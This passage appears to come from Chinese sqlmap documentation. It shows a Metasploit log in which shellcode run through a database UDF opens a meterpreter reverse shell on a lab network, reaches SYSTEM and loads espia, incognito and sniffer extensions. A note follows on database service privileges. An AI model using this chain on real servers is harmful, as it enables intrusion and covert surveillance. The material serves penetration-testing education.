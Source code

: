```
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|

    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD =&gt; windows/meterpreter/reverse_tcp
EXITFUNC =&gt; thread
LPORT =&gt; 60641
LHOST =&gt; 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_bineval', 
please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -&gt; 192.168.136.129:1689) at Mon Apr 11 
hh:mm:52 +0100 2011

meterpreter &gt; Loading extension espia...success.
meterpreter &gt; Loading extension incognito...success.
meterpreter &gt; [-] The 'priv' extension has already been loaded.
meterpreter &gt; Loading extension sniffer...success.
meterpreter &gt; System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter &gt; Server username: NT AUTHORITY\SYSTEM
meterpreter &gt; ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0

Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0

meterpreter &gt; exit

[*] Meterpreter session 1 closed.  Reason: User exit 
```

默认情况下 MySQL 在 Windows 上以 SYSTEM 权限运行，PostgreSQL 在 Windows 与 Linux 中是低权限运行，Microsoft SQL Server 2000 默认是以 SYSTEM 权限运行，Microsoft SQL Server 2005 与 2008 大部分是以 NETWORK SERVICE 有时是 LOCAL SERVICE。
